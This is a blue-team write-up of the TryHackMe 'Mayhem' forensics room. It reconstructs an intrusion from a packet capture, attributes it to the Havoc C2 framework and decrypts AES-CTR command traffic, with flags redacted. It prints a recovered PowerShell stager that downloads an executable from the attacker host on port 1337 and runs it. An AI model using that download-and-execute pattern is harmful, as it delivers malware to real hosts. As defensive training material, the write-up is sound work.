# Mayhem — Forensic Network Analysis & Havoc C2 Investigation

> **TryHackMe room:** Mayhem  
> **Track:** Blue Team / Digital Forensics / Network Analysis  
> **Purpose:** Portfolio-grade documentation of the investigation workflow  
> **Flags:** Intentionally redacted from this public write-up

---

## 1. Executive Summary

**Mayhem** is a blue-team oriented investigation built around a packet capture. The challenge is to reconstruct an intrusion from network evidence, recover a delivered executable, recognize a Havoc C2 implant, recover the cryptographic material used by the agent, and decode selected command/response exchanges.

The investigation follows a defensible forensic chain:

`PCAP → HTTP transfer → install.ps1 → notepad.exe → Havoc C2 attribution → DEMON_INIT → AES-CTR key/IV → encrypted POST/response decoding → host artifacts`

The supplied evidence identifies a workstation at **10.0.2.38** communicating with **10.0.2.37**. The PowerShell bootstrap retrieves `notepad.exe` from port `1337`, saves it under the user's Downloads directory, and starts it. fileciteturn0file0L43-L68

---

## 2. Investigation Scope

| Item | Observation |
|---|---|
| Suspected victim | `10.0.2.38` |
| Suspected staging / C2 host | `10.0.2.37` |
| Initial transfer service | HTTP on port `1337` |
| Payload | `notepad.exe` |
| Launcher | `install.ps1` |
| C2 framework | Havoc |
| C2 transport observed | HTTP |
| Encryption | AES-CTR |
| Primary tools | Wireshark, strings, VirusTotal, CyberChef |

The supplied write-up describes the PCAP as the starting evidence and the first important pivot as the HTTP transfer of `install.ps1`. fileciteturn0file0L43-L68

---

## 3. Evidence Handling & Methodology

1. Preserve the PCAP as the primary source.
2. Identify relevant hosts and protocols.
3. Follow the first suspicious HTTP transaction.
4. Recover the PowerShell launcher.
5. Extract the transferred PE from HTTP objects.
6. Perform static triage with `strings`.
7. Validate the Havoc hypothesis using malware intelligence.
8. Identify the Havoc initialization packet.
9. Recover the AES key and IV.
10. Remove transport headers and decrypt targeted payloads.
11. Correlate each answer with packet-level evidence.

---

## 4. Phase I — PCAP Triage

The initial packet view contains normal connection teardown traffic, followed by communication between `10.0.2.38` and `10.0.2.37`. The important transition is the HTTP request for `install.ps1`. fileciteturn0file0L45-L68



**Figure 01 — Initial packet-capture triage**

The goal is not to inspect every packet equally; it is to identify the first sequence that explains endpoint behavior.

---

## 5. Phase II — Recovering `install.ps1`

Following the relevant HTTP stream exposes the launcher. The script contacts port `1337`, downloads `notepad.exe`, writes it beneath the user's Downloads directory, and starts the file. fileciteturn0file0L51-L66



**Figure 02 — Recovered PowerShell download logic**

A normalized view of the behavior:

```powershell
$URL = "http://10.0.2.37:1337/notepad.exe"
$DEST = "C:\Users\paco\Downloads\notepad.exe"

Invoke-WebRequest -Uri $URL -OutFile $DEST
Start-Process -FilePath $DEST
```

The important behavioral indicators are the direct executable download, the user-writable destination, and immediate process execution.

---

## 6. Phase III — Extracting the Delivered PE

Wireshark's HTTP object exporter can reconstruct the transferred executable:

**File → Export Objects → HTTP**

The relevant `notepad.exe` object is saved for offline analysis. fileciteturn0file0L68-L72



**Figure 03 — HTTP object extraction**

> **Forensic rule:** extract first; do not execute an unknown payload on the analysis host.

---

## 7. Phase IV — Static Triage

A `strings` pass exposes a reference to **`demon.x64.exe`**, providing a distinctive pivot for framework identification. fileciteturn0file0L74-L80



**Figure 04 — Static string triage**

This yields a useful sequence:

`Recovered binary → distinctive string → framework hypothesis → independent validation`

---

## 8. Phase V — Havoc C2 Attribution

The supplied malware-intelligence evidence associates the sample with **Havoc C2** terminology. fileciteturn0file0L80-L92



**Figure 05 — Malware-intelligence evidence**

This attribution provides the protocol context needed to interpret the later encrypted HTTP traffic.

---

## 9. Phase VI — Intrusion Timeline

```text
10.0.2.38
   │
   ├── requests install.ps1
   │
   ├── executes PowerShell bootstrap
   │
   ├── downloads notepad.exe from 10.0.2.37:1337
   │
   ├── executes the payload
   │
   └── begins HTTP C2 communication
             │
             └── Havoc DEMON_INIT
                     │
                     ├── AES key
                     └── AES IV
                             │
                             └── encrypted tasking / responses
```

The timeline is derived from the observed packet sequence and recovered script behavior. fileciteturn0file0L51-L68

---

## 10. Phase VII — Havoc Protocol Reconstruction

The supporting research describes Havoc as a Teamserver/Client post-exploitation framework with HTTP(S) listeners. fileciteturn0file0L94-L105

The parser logic identifies a **20-byte request header** containing payload size, magic bytes, agent ID, command ID, and memory ID. It also maps command ID `99` to `DEMON_INIT`. fileciteturn0file0L125-L166

This matters because the header is not the encrypted payload itself.

---

## 11. Phase VIII — Identifying `DEMON_INIT`

The documented analysis identifies **packet 182** as the key initialization request. It contains the material needed to decrypt the rest of the observed session. fileciteturn0file0L242-L248



**Figure 06 — Havoc initialization packet**

Protocol facts recovered from the evidence:

- request header: **20 bytes**
- AES key: **32 bytes**
- AES IV: **16 bytes**
- mode: **CTR**

The source analysis shows that the initialization request exposes the AES key and IV and stores them as session material. fileciteturn0file0L200-L220

---

## 12. Phase IX — AES-CTR Decryption

The referenced parser uses AES in CTR mode and initializes its counter from the IV. fileciteturn0file0L137-L145



**Figure 07 — AES-CTR decryption setup**

CyberChef can be used with:

```text
AES Decrypt
Mode: CTR
Input: Hex
Output: Raw
```

The ciphertext comes from the encrypted section of the File Data field. fileciteturn0file0L255-L267

---

## 13. Phase X — Header Offsets

A critical forensic detail is locating the encrypted bytes correctly.

### Agent POST requests

```text
20-byte Havoc header
        ↓
encrypted payload
```

### C2 HTTP responses

```text
12-byte response header
        ↓
encrypted command
```

The source write-up translates those offsets into **40 hex digits** and **24 hex digits**. fileciteturn0file0L273-L287



**Figure 08 — Ciphertext selected for decryption**

Trying to decrypt the entire File Data field fails because the protocol header is not part of the ciphertext.

---

## 14. Phase XI — Targeted Wireshark Filtering

Once the protocol structure is understood, low-value check-in packets can be excluded to reduce repetitive analysis. The supplied evidence gives the following filter:

```text
tcp.port != 1337 &&
http &&
!(http.file_data == 00:00:00:10:de:ad:be:ef:0e:9f:b7:d8:00:00:00:01:00:00:00:00) &&
!(http.file_data == 0a:00:00:00:00:00:00:00:00:00:00:00)
```

The source notes that many 20-byte requests and 12-byte responses are only check-ins and therefore low-value for manual decryption. fileciteturn0file0L289-L295



**Figure 09 — Focused packet filtering**

---

## 15. Phase XII — Recovered Host Artifacts

### 15.1 User SID

The decrypted response associated with packet **239**, following command packet **236**, contains the Windows SID requested by the room. fileciteturn0file0L297-L311



**Public answer:** `[REDACTED]`

---

### 15.2 Link-local IPv6 Address

The later command/response pair uses packet **266** and packet **274** to recover the requested network configuration artifact. fileciteturn0file0L313-L327



**Public answer:** `[REDACTED]`

---

### 15.3 Attacker-Printed Flag

The supplied evidence identifies packet **333** as the command and packet **341** as the response containing the challenge flag. fileciteturn0file0L331-L345



**Flag:** `[REDACTED — solve independently]`

---

### 15.4 Persistence Account

A later decrypted command creates a new account as a persistence mechanism. The relevant evidence is tied to packet **378**. fileciteturn0file0L347-L355



**Credential:** `[REDACTED]`

Only the investigative finding is documented publicly.

---

### 15.5 Sensitive File Discovery

The attacker finds an important file. The source maps the finding to packet **602**. fileciteturn0file0L357-L365



**Recovered path:**

```text
C:\Users\paco\Desktop\Files\clients.csv
```

This path is retained as an investigative artifact; the flag inside the file is withheld.

---

### 15.6 Final Challenge Artifact

The corresponding response is associated with packet **610**. fileciteturn0file0L367-L375



**Flag:** `[REDACTED — solve independently]`

---

## 16. Findings

The evidence supports the following sequence:

1. `10.0.2.38` acts as the compromised endpoint in the observed exchange.
2. The endpoint retrieves a PowerShell bootstrap from `10.0.2.37`.
3. The bootstrap downloads and executes `notepad.exe`.
4. Static triage exposes `demon.x64.exe`.
5. Malware intelligence supports a Havoc C2 attribution.
6. `DEMON_INIT` reveals the session's AES material.
7. AES-CTR decoding reconstructs selected tasking and responses.
8. The decoded traffic exposes endpoint identity, network configuration, persistence, and sensitive-file discovery.

The first-stage evidence and the crypto workflow are described in the supplied source material. fileciteturn0file0L43-L68 fileciteturn0file0L242-L287

---

## 17. MITRE ATT&CK Mapping

| Observed behavior | ATT&CK technique |
|---|---|
| PowerShell launcher | T1059.001 — PowerShell |
| Downloaded executable | T1105 — Ingress Tool Transfer |
| Masquerading as a benign executable | T1036 — Masquerading |
| HTTP C2 | T1071.001 — Web Protocols: HTTP |
| Account creation | T1136 — Create Account |
| Network configuration discovery | T1016 — System Network Configuration Discovery |
| File discovery | T1083 — File and Directory Discovery |

This table is a defensive analytical mapping of the behaviors observed in the evidence.

---

## 18. Analyst Lessons

### Packet capture can preserve the execution story

The capture contains the staging script, payload transfer, C2 negotiation, and later post-exploitation traffic.

### Protocol knowledge turns noise into evidence

Once the Havoc header structure and AES-CTR workflow are understood, encrypted traffic can be systematically decoded.

### The initialization packet is the key pivot

The first `DEMON_INIT` request contains session cryptographic material that enables subsequent decryption.

### Intelligence supports, rather than replaces, evidence

Malware-intelligence services help validate a hypothesis; the packet sequence remains the primary forensic source.

---

## 19. Defensive Detection Opportunities

- Alert on PowerShell downloading executables from non-standard ports.
- Monitor executables that resemble legitimate Windows utilities but execute from user-writable paths.
- Correlate periodic outbound HTTP with unusual process lineage.
- Monitor unexpected local account creation.
- Investigate sensitive-file access by uncommon processes.
- Use network and endpoint telemetry together.

---

## 20. Reproduction Checklist

```text
[ ] Obtain the Mayhem PCAP
[ ] Open in Wireshark
[ ] Identify the HTTP transfer on port 1337
[ ] Follow install.ps1
[ ] Export notepad.exe
[ ] Run strings against the PE
[ ] Validate the Havoc hypothesis
[ ] Locate DEMON_INIT
[ ] Recover AES key and IV
[ ] Copy File Data as a Hex Stream
[ ] Remove protocol headers
[ ] Decrypt targeted traffic
[ ] Correlate packet numbers with artifacts
[ ] Solve the room independently
```

---

## 21. Public Disclosure Policy

This repository intentionally **does not publish challenge flags, direct answer strings, or account credentials**. The purpose is to preserve the educational value of the room while still documenting a professional forensic workflow.

The public documentation focuses on:

- methodology;
- protocol reconstruction;
- packet selection;
- evidence interpretation;
- defensive lessons.

---

## 22. References

- [TryHackMe — Mayhem](https://tryhackme.com/room/mayhemroom)
- [Zscaler — Havoc Across the Cyberspace](https://www.zscaler.com/blogs/security-research/havoc-across-cyberspace)
- [Immersive Labs — HavocC2-Forensics](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics)

The supplied source specifically references both the Zscaler research and the Immersive Labs HavocC2-Forensics project. fileciteturn0file0L109-L123

---

## 23. Conclusion

Mayhem is a forensic reconstruction exercise: start with packets, identify the staging behavior, extract and triage the payload, recognize the C2 framework, reconstruct its encryption workflow, and turn encrypted network traffic into meaningful host artifacts.

The most transferable skill is the chain:

**packet → protocol → artifact → hypothesis → validation**

That workflow maps naturally to SOC analysis, threat hunting, DFIR, and network forensics.
